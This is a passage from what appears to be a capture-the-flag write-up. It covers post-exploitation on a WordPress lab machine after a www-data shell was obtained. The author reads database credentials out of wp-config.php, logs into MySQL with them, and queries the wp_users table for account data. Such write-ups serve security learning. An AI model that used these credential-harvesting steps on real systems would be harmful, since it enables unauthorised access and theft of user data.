 Bingo, we have gained a shell as `www-data`.

---
## Shell as www-data

Once with a shell, we can begin with the **privilege escalation** phase, firstly i checked the website structure, since we are facing a **Wordpress** website, let's check the `wp-config.php` in order to check the `bjoel` credentials.   

```bash
/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');
```

Once with the `mySQL` credentials, let's check the database.

```bash
www-data@blog:/var/www/wordpress$ mysql -u wordpressuser -p
Enter password: LittleYellowLamp90!@

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| blog               |
+--------------------+
2 rows in set (0.00 sec)

mysql> use blog;
use blog;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_blog        |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
```